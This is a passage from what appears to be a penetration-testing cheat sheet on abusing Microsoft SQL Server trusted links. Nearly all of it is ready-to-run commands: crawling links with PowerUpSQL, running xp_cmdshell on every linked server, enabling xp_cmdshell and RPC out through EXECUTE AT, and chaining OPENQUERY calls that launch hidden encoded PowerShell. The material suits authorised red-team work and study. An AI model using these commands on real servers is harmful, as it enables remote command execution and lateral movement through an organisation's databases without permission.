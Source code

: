````
```

#### Crawl links to remote servers
```
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> -Verbose
```

#### Crawl links and show servers where we are sysadmin
```
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> | Where-Object -Property sysadmin -Match 1
```

#### Crawl and try to use xp_cmdshell on every link
```
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> -Query 'exec master..xp_cmdshell ''whoami'''
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> -Query 'exec master..xp_cmdshell ''whoami''' | Where-Object CustomQuery
```

### Manual queries
- https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links
- There is two methods ```openquery()``` and ```EXECUTE AT```.
- Some times you won't be able to perform actions like exec xp_cmdshell from ```openquery()``` in those cases it might be worth it to test ```EXCUTE AT```

#### Manually enumerate database links query
```
SELECT * FROM master..sysservers
```
 
#### Query a link - for example for more for links or information
```
SELECT * FROM OPENQUERY("<SERVER>\<DB>", 'SELECT * FROM master..sysservers;')
SELECT * FROM OPENQUERY("<SERVER>\<DB>", 'select @@servername');
SELECT * FROM OPENQUERY("<SERVER>\<DB>", 'SELECT * FROM sys.configurations WHERE name = ''xp_cmdshell''');
```
 
#### Example with double or tripple queries
```
SELECT * FROM OPENQUERY("sql-1.test.io", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''')
SELECT * FROM OPENQUERY("sql-1.test.io", 'select * from openquery("sql01.test.local", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''''')')
```

#### EXECUTE AT Enable xp_cmdshell
- RPC out needs to be enabled - this isn't default!
```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT "<DB>"
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT "<DB>"
EXEC('exec master..xp_cmdshell ''whoami''') AT "<SERVER>\<DB>"
```
 
#### EXECUTE AT enable RPC Out
- Requires to be sysadmin on the SQL server, not sysadmin for the configured link!
- Enter Srvname from enumerating links
```
EXEC sp_serveroption
@server='<SERVER>\<DB>', @optname='rpc out', @optvalue='True'
```
 
### Privilege escalation Service Accounts
#### Shared service account
- If multiple SQL Servers share the same service account. Comprimising one server comprimises them all!
````